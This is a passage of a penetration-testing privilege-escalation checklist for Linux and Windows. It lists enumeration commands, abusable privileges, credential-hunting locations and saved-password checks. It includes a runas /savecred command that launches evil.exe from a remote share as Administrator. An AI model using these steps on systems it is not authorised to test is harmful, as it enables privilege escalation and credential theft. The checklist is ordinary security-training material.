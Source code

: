 ### Local Processes

- `ps -aux | grep [USER, ROOT...]`
- `ps -aux` look for local databases

### OS 

- Kernel Exploits

- Vulnerable Software: `dpkg -l` 

## Windows

### Users

- Users & Groups
  - `net user`
  - `net localgroup`
  - `net user [USER]`
- Memberships & Privileges

  -  `whoami /all`
  -  Check non-default groups -> [Exploits](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges)
  -  Check non-default privileges -> [Exploits](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
     - `SeDebug`
     - `SeBackup`
     - `SeImpersonate` / `SeAssignPrimaryToken`
     - `SeRestore`
     - `SeManage`
  -  [LOLBAS](https://lolbas-project.github.io/#) also contains a list of Windows applications which we may be able to  leverage to perform certain functions, like downloading files or  executing commands in the context of a privileged user

### Credential Hunting:

- Check locations:

  - Desktop: `cd C:\Users\[USER]\Desktop`

  - configuration fikes

  - log files

  - History `PSReadLine`

- Saved passwords `cmdkey /list`

  ````cmd
  runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
  ````

- `tree /a /f c:\users`

### Files
